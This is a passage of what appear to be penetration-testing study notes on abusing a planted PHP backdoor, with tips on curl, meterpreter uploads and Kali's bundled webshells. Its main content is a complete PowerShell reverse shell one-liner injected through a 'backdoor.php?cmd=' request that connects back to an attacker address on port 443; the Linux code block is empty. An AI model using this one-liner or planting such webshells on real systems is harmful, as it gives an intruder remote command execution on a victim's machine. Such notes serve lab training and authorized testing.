 Curl is a great way to send these commands to the webserver rather than using a web browser.

This can be used to enumerate or upload a meterpreter payload.

You can also use the following reverse shell one-liners to get a simple reverse shell:

Note:  You should URL encode the commands so that characters are not interpreted as HTML or PHP code.

**<u>Windows</u>**

```powershell
http://192.168.216.10/backdoor.php?cmd=powershell -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.119.216',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

**<u>Linux</u>**

```bash

```



#### Webshells

Kali includes webshells in different languages to get a browser-based CLI.  They are stored in `/usr/share/webshells` along with other scripts.  The best webshell for PHP I found was `/usr/share/webshells/laudanum/php/shell.php`.  You have to upload this file to the server somehow and run it locally, it doesn't work with RFI.

